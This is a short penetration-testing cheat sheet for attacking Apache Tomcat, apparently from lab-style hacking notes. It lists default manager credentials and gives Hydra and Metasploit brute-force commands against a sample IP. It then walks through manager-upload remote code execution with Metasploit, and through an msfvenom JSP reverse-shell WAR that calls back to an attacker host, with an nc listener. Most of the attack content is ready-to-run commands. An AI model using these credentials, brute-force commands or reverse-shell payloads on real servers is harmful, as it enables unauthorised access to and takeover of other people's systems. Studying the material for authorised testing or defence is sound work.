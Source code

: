# 🐈 Tomcat

## No Account

### Default Credentials

* admin:admin
* tomcat:tomcat
* admin:
* admin:s3cr3t
* tomcat:s3cr3t
* tomcat:s3cret
* admin:tomcat

### Bruteforce

```bash
# metasploit
msf> use auxiliary/scanner/http/tomcat_mgr_login

# hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Passwords Backtrace disclosure

/auth.jsp

## With Account

### Manager - RCE

> You will only be able to deploy a WAR if you have **enough privileges** (roles: admin, manager and manager-script).&#x20;
>
> Those details can be find under **tomcat-users.xml** usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions)

#### PoC

```bash
# metasploit
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

# msfvenom - manually
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
# upload it to tomcat and access it : /revshell/
# host
nc -lvnp 8083
```
